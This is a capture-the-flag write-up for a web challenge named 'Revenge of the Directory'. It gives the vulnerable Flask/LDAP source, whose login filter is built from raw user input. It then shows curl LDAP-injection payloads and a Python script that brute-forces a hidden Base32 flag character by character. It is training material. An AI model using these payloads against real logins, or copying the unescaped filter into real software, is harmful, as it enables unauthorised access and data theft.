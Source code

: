 
# Revenge of the Directory 

 * Category: Web
 * Solved by the JCTF Team

## Description

> who needs credentials when you can bend the directory to your will?
> 
> Abuse the app to exfiltrate the flag and make the system regret denying you access!
> 
> You’ll need to complete the OUtbreak challenge before this one. 

The application sources were attached.

<details>

<summary>Click to view sources</summary>

#### index.py

```python
from flask import Flask, render_template, request
from auth import authenticate_user

app = Flask("App")

@app.route('/')
def index():
    return render_template('login.html')

@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']
    username = authenticate_user(username, password)
    if username:
        return render_template("welcome.html", username=username)
    else:
        return render_template('login.html', error='Username or password is incorrect')

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000, debug=True)

```

#### auth.py

```python
import ldap3
import os
import base64
import time
import sys

SERVER = "ldap" 
LDAP_SERVER = f'ldap://{SERVER}' 
LDAP_USER = os.getenv("LDAP_USER", 'cn=admin,dc=owasp,dc=ctf')
LDAP_PASSWORD = os.getenv("LDAP_PASSWORD", 'admin')
BASE_DN = os.getenv('BASE_DN', 'dc=owasp,dc=ctf')
FLAG = base64.b32encode((os.getenv("FLAG") or "flag{yeah_not_the_real_flag}").encode()).decode()

def create_ldap_connection():
        try:
            server = ldap3.Server(LDAP_SERVER, port=1389, get_info=ldap3.ALL)
            connection = ldap3.Connection(server, user=LDAP_USER, password=LDAP_PASSWORD, auto_bind=True)
            return connection
        except Exception as e:
            print(f"Failed to connect to LDAP server, retrying... Error: {e}")

def authenticate_user(username: str, password: str):
    connection = create_ldap_connection()
    if connection is None:
        return None
    
    try:
        search_filter = f"(&(cn={username})(userPassword={password}))" 
        connection.search(
        search_base=BASE_DN,
        search_filter=search_filter,
        search_scope=ldap3.SUBTREE,
        attributes=['cn']
        )
        result = connection.entries

        if result:
            return result[0].cn.value[1]
        else:
            return None

    except Exception as e:
        print(e, file=sys.stderr)
    finally:
        connection.unbind()
    return None


time.sleep(3)
connection = create_ldap_connection()
connection.modify(
        dn="cn=DaGoat,ou=users,dc=owasp,dc=ctf",
        changes={'description': [(ldap3.MODIFY_REPLACE, [FLAG])]}
    )

if connection.result['result'] == 0:
        print('Description updated successfully')
else:
        print('Modify failed:', connection.result)
```

#### docker-compose.yml

```yml
version: "3"

services:
  ldap:
    image: bitnami/openldap:latest
    environment:
      LDAP_ROOT: 'dc=owasp,dc=ctf'
      LDAP_ADMIN_DN : 'cn=admin,dc=owasp,dc=ctf'
      LDAP_ADMIN_USERNAME: 'admin'
      LDAP_ADMIN_PASSWORD: 'admin'
      LDAP_USERS: 'DaGoat'
      LDAP_PASSWORDS: 'fake'
    ports:
      - "1389:1389"
    restart: always

  backend:
    build: backend
    depends_on:
      - ldap
    expose:
      - "5000"  
    environment:
      FLAG: "AppSec-IL{fake_flag}" 
    restart: always
  
```

</details>


## Solution

This is the follow-up for OUtbreak. Let's start by trying the trick that allowed us
to login there:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/Revenge_of_the_directory]
└─$ curl 'https://revenge-of-the-directory.appsecil.ctf.today/login' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'username=DaGoat&password=*%29%28objectClass%3D*' -s | grep DaGoat -A 3
        <h1>Welcome, DaGoat!</h1>
        <h6>(Or a stranger?)</h6>
        <p class="message">You have successfully logged in.</p>
        <h3>Just in case any unauthorized individuals are sneaking around... I've hidden the flag in the description.</h3>
```

It still works, but this time the flag is hidden *elsewhere* - in the description of DaGoat's
entry (encoded as Base32). While we can control (to some extent) the query in `authenticate_user`,
we can't control what it returns - we can't actually have it return the flag. However,
what we *can* do is craft a query that leaks the (base32 encoded) flag character by character.

For example, to leak the first encoded character of the flag, we guess a character and 
craft the filter so that if we guessed correctly, the filter will return a result and we'll
log in. Otherwise, the filter will return an empty result and we'll stay logged out.

Once we have this, we simply need to iterate all possible Base32 characters to leak the first
character, then apply the same method to leak the next one and so on.

This is an example for the behavior when the guess is incorrect:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/Revenge_of_the_directory]
└─$ curl 'https://revenge-of-the-directory.appsecil.ctf.today/login' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'username=DaGoat&password=*)(|(description=A*)' -s | grep Welcome
```

And this is how it would look like if the guess is correct:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/Revenge_of_the_directory]
└─$ curl 'https://revenge-of-the-directory.appsecil.ctf.today/login' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'username=DaGoat&password=*)(|(description=I*)' -s | grep Welcome
    <title>Welcome</title>
        <h1>Welcome, DaGoat!</h1>
```

We can have ChatGPT create an exploitation script in seconds:

```python
import requests

URL = 'https://revenge-of-the-directory.appsecil.ctf.today/login'
CHARSET = 'IABCDEFGHIJKLMNOPQRSTUVWXYZ234567'  # Base32 character set
PREFIX = ''  # Known flag prefix so far
USERNAME = 'DaGoat'

def try_char(prefix, c):
    password = f'*)(|(description={prefix + c}*)'
    data = {
        'username': USERNAME,
        'password': password
    }

    try:
        r = requests.post(URL, data=data)
        return 'Welcome' in r.text
    except Exception as e:
        print(f"Request failed for {prefix + c}: {e}")
        return False

def brute_force_flag():
    global PREFIX
    print("[*] Starting brute-force...")

    while True:
        found = False
        for c in CHARSET:
            print(f"[*] Trying: {PREFIX + c}")
            if try_char(PREFIX, c):
                PREFIX += c
                print(f"[+] Found: {PREFIX}")
                found = True
                break
        if not found:
            print("[!] No match found for next character. Assuming flag is complete.")
            break

    print(f"[🏁] Base32 Flag: {PREFIX}")

if __name__ == '__main__':
    brute_force_flag()
```

We let it run and eventually get the flag:

```
┌──(user@kali3)-[/media/sf_CTFs/appsec/Revenge_of_the_directory]
└─$ python3 solve.py
...
[*] Trying: IFYHAU3FMMWUSTD3GVRXEMTQOQYWSTTHL52DAX3FPBTGY2LUOI2HIZK7GFJV6M3WNFWH23
[*] Trying: IFYHAU3FMMWUSTD3GVRXEMTQOQYWSTTHL52DAX3FPBTGY2LUOI2HIZK7GFJV6M3WNFWH24
[*] Trying: IFYHAU3FMMWUSTD3GVRXEMTQOQYWSTTHL52DAX3FPBTGY2LUOI2HIZK7GFJV6M3WNFWH25
[*] Trying: IFYHAU3FMMWUSTD3GVRXEMTQOQYWSTTHL52DAX3FPBTGY2LUOI2HIZK7GFJV6M3WNFWH26
[*] Trying: IFYHAU3FMMWUSTD3GVRXEMTQOQYWSTTHL52DAX3FPBTGY2LUOI2HIZK7GFJV6M3WNFWH27
[!] No match found for next character. Assuming flag is complete.
[🏁] Base32 Flag: IFYHAU3FMMWUSTD3GVRXEMTQOQYWSTTHL52DAX3FPBTGY2LUOI2HIZK7GFJV6M3WNFWH2
```

We decode it and get the flag:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/Revenge_of_the_directory]
└─$ echo IFYHAU3FMMWUSTD3GVRXEMTQOQYWSTTHL52DAX3FPBTGY2LUOI2HIZK7GFJV6M3WNFWH2 | base32 -d
AppSec-IL{5cr2pt1iNg_t0_exflitr4te_1S_3vil}
```